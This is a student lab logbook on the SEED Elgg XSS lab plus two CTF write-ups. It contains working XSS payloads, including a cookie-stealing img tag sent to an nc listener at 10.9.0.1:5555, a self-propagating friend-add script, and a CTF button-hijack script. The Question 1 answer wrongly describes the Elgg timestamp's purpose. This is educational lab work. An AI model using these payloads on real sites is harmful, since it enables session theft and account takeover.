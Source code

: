 # LOGBOOK10

## Tasks

### Task 1: Posting a Malicious Message to Display an Alert Window

> The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the JavaScript program will be executed and an alert window will be displayed.

The first step is to log in to the Elgg website as one of the given users, we used the credentials `samy` `seedsamy` to log in as Samy. Then, navigating to the Profile page, then the Edit Profile page and typed the code `<script>alert('XSS');</script>` into one of the profile fields that is loaded on the Profile page, as this is required for the script to be run when other users visit it.

![](https://i.imgur.com/JpGuXYX.png)

After saving, when visiting this user's page as any user, the alert is shown.

![](https://i.imgur.com/DweiaHs.png)


### Task 2: Posting a Malicious Message to Display Cookies

> The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the user’s cookies will be displayed in the alert window. 

Following the same steps as the previous task, only by using the following code `<script>alert(document.cookie);</script>`, the user's cookies will be shown. The Elgg variable which is probably the site's user session cookie is different for every user that triggers this action, as one would expect.

![](https://i.imgur.com/kqcJgBH.png)


![](https://i.imgur.com/KaIpj1g.png)


### Task 3: Stealing Cookies from the Victim’s Machine

> In the previous task, the malicious JavaScript code written by the attacker can print out the user’s cookies, but only the user can see the cookies, not the attacker. In this task, the attacker wants the JavaScript code to send the cookies to himself/herself.

The first step is to setup a terminal that will listen to the request with the 'stolen' information. We do this with the following command: `nc -l 5555`
Then we setup the attack, by editing Samy's profile with the following code, that will embed the user's cookies on an `<img>` tag, that upon being loaded sends this information to the attacker:

`<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '   >');</script>`

![](https://i.imgur.com/N1KVI6g.png)

The user's cookies are visible in the GET request's data.

### Task 4: Becoming the Victim’s Friend

> In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy Worm). We will write an XSS worm that adds Samy as a friend to any other user that visits Samy’s page.

The first step is to find out the structure of a friend request sent by the website. This is done using the recommended firefox extension HTTP Header Live.

![](https://i.imgur.com/mMFQzBc.png)

From inspecting the caught request, this is the result:

`http://www.seed-server.com/action/friends/add?friend=57&__elgg_ts=1641337053&__elgg_token=QKGYnXwM5i319NhplqNrsw&__elgg_ts=1641337053&__elgg_token=QKGYnXwM5i319NhplqNrsw`

Evidently, the arguments needed for a friend request are the target user's ID, the timestamp and the token of the user sending the request. 
After inspecting Samy's profile page to find his ID, we can change our payload building code:


``` 
<script type="text/javascript">
window.onload = function() {
	var Ajax = null;

	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
	var token="&__elgg_token="+elgg.security.token.__elgg_token;

	// Construct the HTTP request to add Samy as a friend.
	var sendurl="http://www.seed-server.com/action/friends/add?friend=" + "59" + ts + token + ts + token; 

	// Create and send Ajax request to add friend
	Ajax=new XMLHttpRequest();
	Ajax.open("GET", sendurl, true);
	Ajax.send();
}
</script>
```

We can then embed this script in Samy's page (be it by using the 'About Me' section's HTML edit zone or other fields like the 'Brief Description' field). After this, any user that visits his page and unwillingly executes this code will send a request to Samy and become his friend.

#### Question 1: Explain the purpose of Lines ➀ and ➁, why are they are needed?
Line 1 corresponds to the timestamp. It is necessary to allow the client to adjust its retransmission intervals.

Line 2 is the Elgg token. It allows the user to fetch resources without the need to use their login information constantly, as it is set upon login and stored in the browser's cookies.

#### Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

The "About Me" section uses a rich-text editor that is doing some input sanitization, namely to disallow the use of the normal `<>` characters. With this, HTML tags can't be created and thus, code cannot be inserted by just typing it into the field. However, we found that by editing the HTML div itself with our malicious code, this step could be circunvented, and an attack still executed.

![](https://i.imgur.com/L3qDqna.png)


![](https://i.imgur.com/wsMDhth.png)


## CTF Semana 10

### Desafio 1

The way to the flag in this challenge is to make the administrator aprove our request. We have access to the same page the administrator does, and we can see that there are 2 buttons, one that aproves the request for a flag and one that doesn't. All we have to do is change the behaviour of the latter to execute the behaviour of the former.

The input is clearly vulnerable to an XSS attack, since no sanitization is done to it. Thus, we can insert code that will be ran on load and will change the behaviour of the 'Mark request as read' button to the one of the 'Give the flag' button.

```
<script>
window.onload = function() { 
    var flag = document.getElementById('giveflag'); 
    var button = document.getElementById('markAsRead'); 
    button.disabled = false; 
    button.onclick = flag.click(); 
    button.parentElement.parentElement.action="" 
} 
</script>
```

We got the flag `flag{609b640aba15d02ae72968b32da93e19}`

## Desafio 2

First off, by running checksec we can see that the program has no canaries, RELRO and NX disabled, but has PIE. This means that the program can be ran anywhere in memory, or doesn't need to be in an absolute position to work.

![](https://i.imgur.com/uFZnZWO.png)

By inspecting the code, we find a vulnerability on line 12, the call `gets(buffer)` will read until a newline or EOF is found, giving way to a buffer overflow.

The fact the program has PIE enabled will make it so we can't predict where the target buffer will be in memory, and in the script we'll need to read the information the program prints on line 8.

The next step is calculating the difference between the `$ebp` and the frame address using gdb, which in this case was 104

![](https://i.imgur.com/0z58J4Y.png)


The updated code, with the fetching of the address from the output and with the new offset.

![](https://i.imgur.com/Wfmueso.png)


Running the program on the server, we got the flag `flag{210bf4154052cab93637d622bb8e39e5}`
![](https://i.imgur.com/0WZKJ4V.png)
